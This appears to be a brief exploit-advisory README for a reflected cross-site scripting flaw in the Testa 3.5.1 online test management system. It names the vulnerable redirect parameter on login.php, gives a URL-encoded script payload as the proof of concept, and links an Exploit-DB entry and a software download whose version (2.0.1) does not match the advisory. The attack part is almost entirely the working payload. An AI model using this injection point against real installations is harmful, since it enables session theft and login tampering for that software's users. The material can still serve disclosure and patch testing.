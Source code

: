 ## Testa-3.5.1 (Cross site scripting)
```
=========================================================================
#
# Testa 3.5.1 Online Test Management System (Cross Site Scripting)
# Version: 3.5.1
# Tested on Linux/Windows
#
=========================================================================
#
# POC (Piye om carane)
# https://localhost/login.php?redirect=[Payloads]
# Payloads: %22%3E%3Cscript%3Ealert(%22Ultraamooz.com%22)%3C/script%3E
#
=========================================================================
```
## Reference
[https://www.exploit-db.com/exploits/51023](https://www.exploit-db.com/exploits/51023)

##Software
[https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip](https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip)
